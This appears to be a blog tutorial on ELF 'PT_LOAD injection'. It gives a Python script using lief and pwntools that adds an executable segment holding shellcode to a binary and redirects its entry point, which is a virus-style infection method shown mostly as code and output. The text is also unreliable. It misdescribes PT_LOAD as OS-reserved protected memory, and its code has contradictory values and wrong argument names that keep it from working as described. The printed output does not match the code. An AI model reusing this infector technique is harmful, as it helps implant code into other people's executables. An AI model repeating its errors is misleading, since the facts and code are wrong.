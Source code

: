 ```yaml
---
title: "PT_LOAD Injection with Python"
classes: wide
header:
  teaser: /assets/images/Binary-Exploitation/Pt_Load-Injection/logo.png
ribbon: red
description: "PT_LOAD Injection is a technique used to inject malicious code into a computer system. This is done by storing the code in..."
categories:
  - Binary Exploitation

---
```


PT_LOAD Injection is a technique used to inject malicious code into a computer system. This is done by storing the code in a special type of memory called "protected memory" or "PT_LOAD memory," which is typically reserved for the operating system and is not accessible to user programs or applications. The injected code is executed by tricking the operating system into thinking it is a legitimate part of the system.

In terms of the ELF (Executable and Linkable Format) structure, PT_LOAD Injection typically involves modifying the ELF header to include the injected code as a new PT_LOAD segment. This segment is then executed as part of the normal program execution process. By modifying the ELF header in this way, the injected code can be executed without raising any red flags or triggering security measures.

![](/assets/images/Binary-Exploitation/Pt_Load-Injection/20221215_202340_7105OS_04_5.jpg)

In Oracle Docs, PT_LOAD described like this:

> PT_LOAD
>
> Specifies a loadable segment, described by p_filesz and p_memsz. The bytes from
> the file are mapped to the beginning of the memory segment. If the segment's memory size (p_memsz) is larger than the file size (p_filesz),
> the extra
> bytes are defined to hold the value 0 and to follow the segment's
> initialized area. The file size can not be larger than the memory size.
> Loadable segment entries in the program header table appear in ascending
> order, sorted on the p_vaddr member.

Here is our injector we create a new PT_LOAD segment and patch the target file with new PT_LOAD segment. While patching the binary with our PT_LOAD segment we should add the old entrypoint to end of our malicious code. With adding old entrypoint, we will not affect the orijinal process but load our malicious code.

## Steps

1. [lief](https://lief-project.github.io/) helps us while parsing **binary **with very simple function: **lief.parse()**

```
       binary = lief.parse(args.f)
```
2. crate a payload and convert it to assembly code with pwn lib's **asm()** function, assing it to **malcode**
3. add the old entrypoint to the end of malicious code

```
        payload = "Everybody looks here\n"
        malcode = asm("mov esi, edx")
        malcode += asm(shellcraft.i386.write(1, payload, len(payload)))
        malcode += asm(f"""
        mov edx, esi
        push {hex(binary.header.entrypoint)}
        ret
        """)
```
4. create a new segment with lief's **ELF.Segment()** function and load the **malcode**

```
        segment           = lief.ELF.Segment()
        segment.type      = lief.ELF.SEGMENT_TYPES.LOAD
        segment.flags     = lief.ELF.SEGMENT_FLAGS.X
        segment.content   = bytearray(malcode)
        segment.alignment = 0x9876
```

5. add this new segment to **binary**

```
        binary.add(segment)
```

6. traverse in binary segments and find our segment and set binary's header.enrtypoint to our segment's virtual address

```
        for segment in binary.segments:
            if segment.type == lief.ELF.SEGMENT_TYPES.LOAD and segment.alignment == 0x999:
                binary.header.entrypoint = segment.virtual_address
                break
```

Full code:

```python
import lief
from pwn import *
import argparse

def main():
    parser = argparse.ArgumentParser(description='PT_LOAD Injection PoC', conflict_handler='resolve')
    parser.add_argument('-file','--file', help="Target file", required = True)
    parser.add_argument('-out','--out', help="Output file")
    args = parser.parse_args()

    if len(sys.argv) < 2: 
        args.print_help()
        exit(0)
    try:
        binary = lief.parse(args.f)
  
        payload = "Everybody looks here\n"
        malcode = asm("mov esi, edx")
        malcode += asm(shellcraft.i386.write(1, payload, len(payload)))
        malcode += asm(f"""
        mov edx, esi
        push {hex(binary.header.entrypoint)}
        ret
        """)
  
        segment           = lief.ELF.Segment()
        segment.type      = lief.ELF.SEGMENT_TYPES.LOAD
        segment.flags     = lief.ELF.SEGMENT_FLAGS.X
        segment.content   = bytearray(malcode)
        segment.alignment = 0x9876
        binary.add(segment)
  
        for segment in binary.segments:
            if segment.type == lief.ELF.SEGMENT_TYPES.LOAD and segment.alignment == 0x999:
                binary.header.entrypoint = segment.virtual_address
                break
  
        print("-> New EntryPoint: ", hex(binary.header.entrypoint))
  
        if args.out:
            binary.write(args.out)
        else:
            binary.write(args.file + "_edited")
    except:
        print("error occurred")
  
if __name__ == "__main__":
    main()
```





Output:

```
$   ./hello_world
Hello World!
$   python3 PT_LOAD_inj.py --file ./hello_world
Shellcode size:  53
-> New PT_LOAD segment added succesfully
$   chmod +x hello_world_edited
$   ./hello_world_edited
Everybody looks here!
Hello World!
```

Source code will be in my repo.

Sources:

[https://subscription.packtpub.com/book/networking-and-servers/9781782167105/4/ch04lvl1sec36/the-pt_note-to-pt_load-conversion-infection-method](https://subscription.packtpub.com/book/networking-and-servers/9781782167105/4/ch04lvl1sec36/the-pt_note-to-pt_load-conversion-infection-method) (Only image)

[https://tmpout.sh/1/3.html](https://tmpout.sh/1/3.html)

[https://tmpout.sh/1/10/](https://tmpout.sh/1/10/)

[https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html](https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html)

[http://blog.k3170makan.com/2018/09/introduction-to-elf-format-part-ii.html](http://blog.k3170makan.com/2018/09/introduction-to-elf-format-part-ii.html)
